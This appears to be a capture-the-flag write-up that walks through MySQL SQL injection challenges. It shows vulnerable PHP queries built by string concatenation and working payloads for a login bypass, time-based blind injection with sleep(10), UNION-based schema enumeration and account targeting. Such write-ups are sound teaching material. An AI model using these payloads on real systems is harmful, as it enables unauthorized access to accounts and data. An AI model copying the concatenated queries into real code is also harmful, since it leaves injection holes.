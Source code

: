 # SQLi Challenges
As you all must've noticed, there were two separate databases being used and hence the challenges were hosted across two websites. One of the DBs used was MySQL and the other was MongoDB. 

## MySQL challenges

### Challenge 1 - Try to login
+ This was the SQL query:
``` $q = "SELECT * FROM users where (username='".$username."') AND (password = '".md5($pass)."')";```
+ Hence the solution will be of the form:
``` blah') OR 1=1 -- // ```
When this is entered in the "username" field, the rest of the query gets commented and you can login as the admin user. 

### Challenge 2 - Take things slow 
+ Here you were expected to conduct a time-based blind SQLi. Essentially, you had to delay the response of the website by 10 seconds. It was also mentioned that you need to conduct this attack on the "Profile Details page"
+ Note: Blind SQLi means the application is vulnerable to SQL injections, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
+ The SQL query was this:
``` $q = "Select * from users where username = '".$user."'";```
+ The solution is as follows:
``` ?user=admin' and if(1=1, sleep(10), null) -- //```
![](images/1.png)

### Challenge 3 - Find Tom Riddle! 
+ Question: Get access to Tom Riddle's account: A wizard who's first name is tom, goes by the username voldemort.
+ Hints to be picked up - "first name" is tom, "username" is voldemort
+ "first name" and "username" are probably names of columns in the database
+ Confirm this by conducting an SQLi to find column names in the "Search Products" page as follows
``` ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- // ```
![](images/2.png)
+ "first name" is actually "fname" and "username" is "username" itself
+ The twist here was, there are two users with the username "voldemort". But only of of them had fname "tom". So you have to write a query that takes care of both these conditions. Add this to the URL:
``` ?user=voldemort' and fname = 'tom'-- //```
![](images/3.png)





